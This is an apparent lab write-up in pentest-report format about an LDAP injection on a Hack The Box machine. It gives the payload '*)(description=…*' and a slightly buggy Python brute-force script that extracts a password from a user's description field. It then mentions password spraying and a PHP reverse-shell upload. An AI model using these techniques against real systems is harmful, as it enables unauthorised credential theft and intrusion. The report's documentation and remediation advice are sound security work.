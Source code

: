 # id

* class injection
* lorem

# title

LDAP Injection

# description

Similar to SQL or OS injection, LDAP injection use the protocol syntax into a text form (or similar) to
retrieve data stored, commonly, in Active Directory enviroment. This could be really usefull for attackers
who don't have valid credentials to enumerate usernames, password, descriptions and other LDAP field. In 
Active Directory we can read every data inside LDAP by design if we have credentials but with this vulnerability 
in play threat can circumnavigate this requirement. It become more dangerous with public facing services where 
non-authenticated actors could interact freely.



**Context**

The context is inside the first part of **Analysis** box, thanks to a nmap scan I was able to identify the presence
of the AD domain called *analysis.htb* and the public machine was the Domain Controller (*dc-analysis.htb*) with a public webapp on port 80.
With some basic enumeration/fuzzing I found the endpoint **/users** and, more in depth, **/users/list.php**. Both located into the subdomain **internal.analysis.htb**
My intuition drove me to add some parameters until the **?name=** worked properly, with the "*" character I got a table with a username
as output. Here I was 100% sure that LDAP injection attack vector was present (pretty obvious because the same fields in the table are the ones within the AD user catalog) {!REF:1:ANALYSIS:issue.md:issue11.png!}. 
After exploitation I was able to login in the website backend leveraging my unautenticated situation and move on until foothold thanks to unsafe File Upload 
that permits PHP reverse shell to be loaded server-side.


# evidence

## internal.analysis.htb/users/list.php?name=*

The user I get on this website endpoint was **technician**, using **ASREP-roasting** (*impacket-GetNPUsers* tool) I was able to check if was
a valid user inside the AD domain or not, luckly this was the case {!REF:1:ANALYSIS:issue.md:issue12.png!}. At first I tought was SQL because the "*" works the same with both LDAP and SQL
but it requir a few tries to understand was LDAP for sure. I had to go AFK and review back LDAP syntax, it required 5/10 minutes and the attack flow
looks clear enough to move on. The server side will just add a parenthesis and doesn't sanitize in any way, changing the parameter with `*)(description=*`
returned the same output, we can enumerate the description of the user **technician** with adding characters before the last "*". I tried manually the first
character to be sure the attack could work and after reciving the output with `*)(description=9*` I know the description start with the character "9".
The next step is obvious, we need to automate this process in order tofind the full string (is not uncommon to see plaintext passwords inside the "description" field
because the lack of knowledge about who can see what in Active Directory). This is the python script :

```
import string
import request

finish = false
keys = string.ascii_letters + "#$%&'()+,-./:;<->?@[\\]^_{|}*"
url = 'http://internal.analysis.htb/users/list.php?name='
payload = ''
result = ''

while not finish:
	for i in keys:
		print(f'\r{result}{i}', end="")
		payload = result + i
		attack = url + f"*)(description={payload}*"
		resp = requests.get(attack)
		if "technician" in resp.text:
			result = result + i
			break
	finish = False


print(result)
```

The results after firing the script is "97NTtl*4QP96Bv", this password is not valid for Active Directory Domain but works for the 
backend login form (located at **/employees/login.php**). Here we can upload (and then review) file indiscriminately {!REF:1:ANALYSIS:issue.md:issue13.png!}, like a PHP reverse shell that
allowed me to get foothold on the Domain Controller {!REF:1:ANALYSIS:issue.md:issue14.png!}.

EXTRA : Before login inside the backend I performed password spraying with the usernames found inside and the password retrieved from the script. The user "cwilliams" used the same
pasword which allowed RPC access (but somehow not WinRM). {!REF:1:ANALYSIS:issue.md:issue15.png!}
      

**SSVC Decision**

* **Exploitation = PoC**, because *"private evidence of exploitation is tested but not shared"* is true thanks to the costum python script and is a well know attack
* **Automable = Yes**, the steps 1 to 4 of the kill-chain are fully automable
* **Technical Impact = Partial**, we retrieved just a specific field of the LDAP records about a single user. Exploiting this doesn't automatically gives you full controll of the vulnerable component
* **Mission & Well-Being = High**, the component is directly connected with the client mission (remember this machine is a domain controller)
* **Decision = Attend**, the sum of the previous choices


# affected assets

* internal.analysis.htb (port 80)

# severity

Attend
SSVCv2/E:P/A:Y/T:P/P:E/B:M/M:H/D:A

# recommendations

* Using LDAP in this tasks is uneccesary risk (especially for a webapp), find alternatives to avoid to make the webapp directly linked with LDAP data also take care of similar solutions inside your environment
* Regardless the origin of data implement sanitization of peculiar character (")" for instance) to avoid crafted payload to be injected
* Since the upload form needs to send a file directly to the SoC (and PHP file should be allowed) there is no need to stored in the webserver. Moreover favor private channel rather than backend form to sen this type of files
* Don't use the description field for hardcoded password and avoid password reuse inside your company. The whole password policy needs to be re-designed

# references

* [My full walkthrough of Analysis machine](https://github.com/alstephh/This_Is_Just_A_Hobby/tree/e42a866bb781fb896d6b9c03a33185e192a317b8/MACHINES/HTB/Analysis)

# images

* ![Output using the "*" as parameter of "name" variable](issue11.png)
* ![Check if user "technician" is a valid account inside the AD domain](issue12.png)
* ![Upload form within the backend](issue13.png)
* ![Reverse shell inside the domain controller](issue14.png)
* ![Password Spraying](issue15.png)
